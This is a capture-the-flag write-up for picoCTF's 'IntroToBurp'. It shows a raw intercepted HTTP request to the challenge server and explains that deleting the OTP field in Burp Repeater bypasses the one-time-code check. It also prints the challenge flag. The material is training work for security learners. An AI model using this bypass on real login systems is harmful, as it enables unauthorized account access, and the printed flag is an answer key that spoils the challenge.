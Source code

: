 # IntroToBurp
Write-Up by **Mttttt** *2024-05-29*

## Task description
.

- *Category*: **General Skills**
- *Difficulty*: **Easy**

## Solution
Complete registration on site

Site will ask us for a OTP code

Turn on Interception in Burp and send random OTP code

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:59216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://titan.picoctf.net:59216
Connection: close
Referer: http://titan.picoctf.net:59216/dashboard
Cookie: session=.eJxFjMEOwiAQRP-Fqx5AWhb8FC-EbZdobIEATWOM_-5qTDzOmzfzFNOtP8RZXIo4iqnV6Hu-U2JiorSAGsEEOdMQrVTRWUQ7KnB6AIOaIODMu7gti09hJZ51ap1R7uXzAdKA41hCa3uu818o15zIp21FqkwP6qSH0YDlamtUf2_-a7_eckEyjQ.ZlctYA.6N8_AsgADWXqGDXeEAiQj-7HYxU
Upgrade-Insecure-Requests: 1
Priority: u=1

otp=1234
```

Send this request to the **Repeater**

Then, remove line with `otp=1234`
And send the request

We will get our flag

## Answer
`picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}`
